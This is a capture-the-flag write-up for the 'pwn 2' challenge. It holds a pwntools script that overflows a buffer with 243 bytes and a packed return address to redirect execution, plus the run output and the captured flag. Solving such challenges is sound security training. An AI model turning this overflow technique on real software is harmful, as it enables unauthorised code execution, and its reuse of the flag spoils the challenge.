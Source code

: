 # **pwn 2**

#### tag : pwnable

-----------------------------------------------

#### Description

>nc pwn.ctf.tamu.edu 4322

-----------------------------------------------

#### Solution

~~~

from pwn import *

DEBUG = False

if DEBUG:
    r = process('./pwn2')
    context.log_level = 'debug'
else:
    r = remote('pwn.ctf.tamu.edu',4322)

land = 0x0804854b

payload = ''
payload += 'a' * 243
payload += p32(land)

print r.recvuntil('me!\n')
r.sendline(payload)
print r.recvuntil('}')


~~~

~~~

[+] Opening connection to pwn.ctf.tamu.edu on port 4322: Done
I just love repeating what other people say!
I bet I can repeat anything you tell me!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaK\x85\x0
This function has been deprecated
gigem{3ch035_0f_7h3_p4s7}
[*] Closed connection to pwn.ctf.tamu.edu port 4322

~~~

**gigem{3ch035_0f_7h3_p4s7}**
